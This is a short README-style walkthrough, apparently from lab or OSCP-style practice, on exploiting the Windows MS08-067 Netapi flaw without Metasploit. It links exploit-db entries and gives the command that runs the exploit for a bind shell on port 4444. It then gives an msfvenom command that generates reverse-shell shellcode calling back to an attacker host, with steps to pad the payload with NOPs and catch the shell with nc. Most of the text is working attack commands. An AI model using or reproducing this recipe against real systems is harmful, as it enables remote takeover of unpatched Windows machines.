 # Netapi MS08-067 without metasploit

Reference:

https://www.exploit-db.com/exploits/7132
https://www.exploit-db.com/exploits/40279	(Reverse shell modification of above payload but not working).

7132.py directly bind shell to port 4444 at server(No code modification required).
Exploit: python 7132.py 192.168.1.6 2	(& got bind shell at server side port 4444)

Above code can ge modified to get reverse shell:
i. Generate shellcode using msfvenom: msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.21 LPORT=5253 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f python -a x86 --platform windows
ii. Replace shellcode with above generated code.
iii. Add '\0x90' such that total size of payload becomes equal to 360 bytes(same as the size of bind shellcode of the exploit).

[Size of my payload generated = 348 bytes so addded "\x90" *12 to my shellcode]

& get reverse shell on nc :).
